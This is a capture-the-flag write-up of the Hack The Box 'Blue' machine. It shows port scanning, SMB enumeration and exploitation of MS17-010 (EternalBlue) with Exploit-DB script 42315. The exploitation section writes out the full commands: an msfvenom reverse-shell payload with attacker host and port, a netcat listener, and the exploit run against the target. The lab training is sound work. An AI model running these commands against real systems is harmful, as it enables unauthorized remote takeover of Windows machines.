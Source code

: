 # Blue 

**Links:** [1](https://www.hackthebox.com/machines/Blue)  [2](https://app.hackthebox.com/machines/Blue)

**Machine ip:** 10.10.10.40

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a8b31b09-f318-49b3-a8b6-0faa07b52c0d)



## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.40 -e tun0 > ports

sort -n -k4 ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.40 --open

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/541cf98d-1908-45af-a6ea-4bfc302fdf55)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1acc49b7-1b38-4c2f-8f43-2c7d42f91b00)


## Enumeration
```
nmap --script vuln 10.10.10.40
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/be27653c-bed5-41e6-bf76-9b531c32a044)

```
smbmap -H 10.10.10.40 -u guest -p ''

smbclient //10.10.10.40/share

smbclient //10.10.10.40/users
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/19694aa3-0564-4de5-b490-bd57dd9f1df0)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e9cef959-7fd1-4f26-8943-d5097d0ca541)


## Exploitation & Gaining Access & Privilege Escalation

### Method 1: [CVE-2017-0144](https://www.exploit-db.com/exploits/42315) - Manual Solution
```
searchsploit ms17-010

searchsploit -m 42315

mv 42315.py ms17-010.py
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0ff3583a-8c7e-46f7-a6b0-27fbd1a5692b)

Modify username as **guest** in the below python exploit code:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/74f3513b-14eb-452e-98ba-2dd5bd2117da)

Uncomment two lines, update the exploit code with the reverse shell executable location and get the script to execute it:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7eb03635-3cf3-4bef-b318-aa69bb2263f0)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/521a14ec-bd35-4563-af1e-a7e350f62e53)

```
# On kali attack machine:
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py

msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.24 LPORT=4444 -o ms17-010.exe

nc -lnvp 4444

python2 ms17-010.py 10.10.10.40

# On the target machine:
whoami
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1dadd00f-e06d-4a7b-8a2d-b6a4c02286d0)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7b30f7bd-8ec0-4e8b-902b-78ed57b5660b)


### Method 2: [CVE-2017-0144](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/) - Metasploit Solution
+ Try with metasploit solution [1](https://ethicalhacs.com/blue-hackthebox-walkthrough/) [2](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/) [3](https://0xdf.gitlab.io/2021/05/11/htb-blue.html#metasploit) [4](https://u1sp00kies.medium.com/hack-the-box-htb-blue-walkthrough-7dac9505bc9c)


### Method 3: [CVE-2017-0143](https://0xdf.gitlab.io/2021/05/11/htb-blue.html#python-script) Manual Solution is the same as on [Blue Machine's Method 2](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/38_Legacy.md#method-2-cve-2017-0143-ms17-010--eternal-blue--shadow-brokers--wannacry--notpetya-1-2-3)
+ Try **CVE-2017-0143** [1](https://0xdf.gitlab.io/2021/05/11/htb-blue.html#python-script) [2](https://systemweakness.com/hacktheboxs-blue-writeup-8f1d51c70c46) [3](https://systemweakness.com/hackthebox-writeup-blue-1e07a98ae505#4f92)


# References & Alternatives
+ https://vvmlist.github.io/#blue
+ https://medium.com/@dw3113r/hack-the-box-blue-writeup-without-metasploit-1c6f7e3c586c
  + https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/blue-writeup-w-o-metasploit
+ https://ethicalhacs.com/blue-hackthebox-walkthrough/
  + https://0xdf.gitlab.io/2021/05/11/htb-blue.html
  + https://systemweakness.com/hacktheboxs-blue-writeup-8f1d51c70c46
  + https://systemweakness.com/hackthebox-writeup-blue-1e07a98ae505
  + https://www.hackingarticles.in/hack-the-box-challenge-blue-walkthrough/


## CVE Scripting
+ **CVE-2017-0144 / ms17-010 / Eternal Blue / Shadow Brokers / WannaCry / NotPetya:** https://www.exploit-db.com/exploits/42315
    + https://nvd.nist.gov/vuln/detail/CVE-2017-0144
  + https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/
+ **CVE-2017-0143 / ms17-010 / Eternal Blue / Shadow Brokers / WannaCry / NotPetya:** https://www.exploit-db.com/exploits/43970
    + https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
  + https://github.com/helviojunior/MS17-010
    + https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py
  + https://github.com/c0d3cr4f73r/MS17-010_CVE-2017-0143
  + https://github.com/worawit/MS17-010
  + https://github.com/3ndG4me/AutoBlue-MS17-010


## Tools
+ **mysmb.py:** https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
  + https://github.com/worawit/MS17-010
+ **impacket:** https://github.com/fortra/impacket


## Technical Knowledge
+ **139,445 - Pentesting SMB:** https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb
  + https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/
+ **how to exploit the Eternal Blue vulnerability without using Metasploit:** https://ethicalhackingguru.com/how-to-exploit-ms17-010-eternal-blue-without-metasploit/


## Problems Solution: The same as on [Legacy Machine's Problems Solution](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/38_Legacy.md#problems-solution)
+ https://0xdf.gitlab.io/2021/05/11/htb-blue.html#python-script
+ [no module named impacket](https://forum.hackthebox.com/t/impacket-module-not-found-but-installed/3561)
+ [package 'dsinternals' requires a different python 2.7.18 not in ' =3.4'](https://medium.com/@CustosClarus/thank-you-i-have-been-able-to-open-the-virtual-env-with-source-impacket-venv-bin-activate-d5945901ce0c)
+ https://unix.stackexchange.com/questions/654723/cant-install-python2-modules-kali-2020


## For More
+ https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010
+ https://msrc.microsoft.com/blog/2017/05/customer-guidance-for-wannacrypt-attacks/
+ https://www.sentinelone.com/blog/eternalblue-nsa-developed-exploit-just-wont-die/
+ **Shadow Brokers:** https://en.wikipedia.org/wiki/The_Shadow_Brokers
+ **WannaCry ransomware attack:** https://en.wikipedia.org/wiki/WannaCry_ransomware_attack
  + https://darknetdiaries.com/episode/73/
+ https://cwe.mitre.org/data/definitions/680.html
+ https://andyrussellcronin.wordpress.com/2012/04/13/understanding-heap-spraying/
+ https://www.sentinelone.com/blog/malicious-input-how-hackers-use-shellcode/
